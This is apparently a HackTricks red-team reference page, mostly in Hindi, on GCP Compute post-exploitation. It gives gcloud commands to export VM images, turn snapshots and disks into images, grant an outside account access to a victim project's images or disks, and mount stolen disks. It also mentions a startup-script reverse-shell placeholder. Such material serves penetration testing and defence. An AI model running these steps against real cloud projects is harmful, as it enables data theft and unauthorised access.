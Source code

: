 # GCP - Compute Post Exploitation

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Compute

Compute और VPC (Networking) के बारे में अधिक जानकारी के लिए देखें:

{% content-ref url="../gcp-services/gcp-compute-instances-enum/" %}
[gcp-compute-instances-enum](../gcp-services/gcp-compute-instances-enum/)
{% endcontent-ref %}

### Export & Inspect Images locally

यह एक हमलावर को **पहले से मौजूद इमेज में निहित डेटा तक पहुंचने** या **चल रहे VMs की नई इमेज बनाने** और उनके डेटा तक पहुंचने की अनुमति देगा बिना चल रहे VM तक पहुंच के।

एक VM इमेज को एक बकेट में निर्यात करना और फिर उसे डाउनलोड करना और स्थानीय रूप से माउंट करना संभव है, कमांड के साथ: 

{% code overflow="wrap" %}
```bash
gcloud compute images export --destination-uri gs://<bucket-name>/image.vmdk --image imagetest --export-format vmdk
# The download the export from the bucket and mount it locally
```
{% endcode %}

इस क्रिया को करने के लिए हमलावर को स्टोरेज बकेट पर विशेषाधिकार की आवश्यकता हो सकती है और निश्चित रूप से **cloudbuild पर विशेषाधिकार** की आवश्यकता है क्योंकि यह **सेवा** है जिसे निर्यात करने के लिए कहा जाएगा।\
इसके अलावा, इसके काम करने के लिए codebuild SA और compute SA को विशेषाधिकार प्राप्त अनुमतियों की आवश्यकता है।\
cloudbuild SA `<project-id>@cloudbuild.gserviceaccount.com` को आवश्यकता है:

* roles/iam.serviceAccountTokenCreator
* roles/compute.admin
* roles/iam.serviceAccountUser

और SA `<project-id>-compute@developer.gserviceaccount.com` को आवश्यकता है:

* roles/compute.storageAdmin
* roles/storage.objectAdmin

### स्थानीय रूप से स्नैपशॉट और डिस्क का निर्यात और निरीक्षण करें

स्नैपशॉट और डिस्क को सीधे निर्यात करना संभव नहीं है, लेकिन **एक स्नैपशॉट को डिस्क में, एक डिस्क को इमेज में** बदलना संभव है और **पिछले अनुभाग** का पालन करते हुए, उस इमेज को निर्यात करना ताकि इसे स्थानीय रूप से निरीक्षण किया जा सके।

{% code overflow="wrap" %}
```bash
# Create a Disk from a snapshot
gcloud compute disks create [NEW_DISK_NAME] --source-snapshot=[SNAPSHOT_NAME] --zone=[ZONE]

# Create an image from a disk
gcloud compute images create [IMAGE_NAME] --source-disk=[NEW_DISK_NAME] --source-disk-zone=[ZONE]
```
{% endcode %}

### Inspect an Image creating a VM

**एक इमेज में संग्रहीत डेटा** या **चल रहे VM** के अंदर पहुंचने के लक्ष्य के साथ, जहां एक हमलावर **ने एक इमेज बनाई है,** एक बाहरी खाते को इमेज पर पहुंच प्रदान करना संभव है:
```bash
gcloud projects add-iam-policy-binding [SOURCE_PROJECT_ID] \
--member='serviceAccount:[TARGET_PROJECT_SERVICE_ACCOUNT]' \
--role='roles/compute.imageUser'
```
और फिर इससे एक नया VM बनाएं:
```bash
gcloud compute instances create [INSTANCE_NAME] \
--project=[TARGET_PROJECT_ID] \
--zone=[ZONE] \
--image=projects/[SOURCE_PROJECT_ID]/global/images/[IMAGE_NAME]
```
यदि आप अपनी बाहरी खाता छवि के माध्यम से पहुंच नहीं दे सकते, तो आप पीड़ित की परियोजना में उस छवि का उपयोग करके एक VM लॉन्च कर सकते हैं और **मेटाडेटा को एक रिवर्स शेल निष्पादित करने के लिए बना सकते हैं** छवि तक पहुंच प्राप्त करने के लिए पैरामीटर जोड़ते हुए:
```bash
--metadata startup-script='#! /bin/bash
echo "hello"; <reverse shell>'
```
### Inspect a Snapshot/Disk attaching it to a VM

**डिस्क या स्नैपशॉट में संग्रहीत डेटा तक पहुँचने के लक्ष्य के साथ, आप स्नैपशॉट को डिस्क में, डिस्क को इमेज में बदल सकते हैं और पिछले चरणों का पालन कर सकते हैं।**

या आप **एक बाहरी खाते को डिस्क पर पहुँच प्रदान कर सकते हैं** (यदि प्रारंभिक बिंदु एक स्नैपशॉट है तो स्नैपशॉट पर पहुँच दें या इससे एक डिस्क बनाएं):
```bash
gcloud projects add-iam-policy-binding [PROJECT_ID] \
--member='user:[USER_EMAIL]' \
--role='roles/compute.storageAdmin'
```
**एक उदाहरण** के लिए डिस्क **जोड़ें**:
```bash
gcloud compute instances attach-disk [INSTANCE_NAME] \
--disk [DISK_NAME] \
--zone [ZONE]
```
Mount the disk inside the VM:

1.  **VM में SSH करें**:

```sh
gcloud compute ssh [INSTANCE_NAME] --zone [ZONE]
```
2. **डिस्क पहचानें**: VM के अंदर पहुँचने के बाद, डिस्क उपकरणों की सूची बनाकर नई डिस्क की पहचान करें। आमतौर पर, आप इसे `/dev/sdb`, `/dev/sdc`, आदि के रूप में पाएंगे।
3. **डिस्क को फॉर्मेट और माउंट करें** (यदि यह एक नई या कच्ची डिस्क है):
*   एक माउंट पॉइंट बनाएं:

```sh
sudo mkdir -p /mnt/disks/[MOUNT_DIR]
```
*   डिस्क को माउंट करें:

```sh
sudo mount -o discard,defaults /dev/[DISK_DEVICE] /mnt/disks/[MOUNT_DIR]
```

यदि आप **snapshot या disk के लिए एक बाहरी प्रोजेक्ट को एक्सेस नहीं दे सकते**, तो आपको **snapshot/disk के समान प्रोजेक्ट में एक इंस्टेंस के अंदर ये क्रियाएँ करनी पड़ सकती हैं**।

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
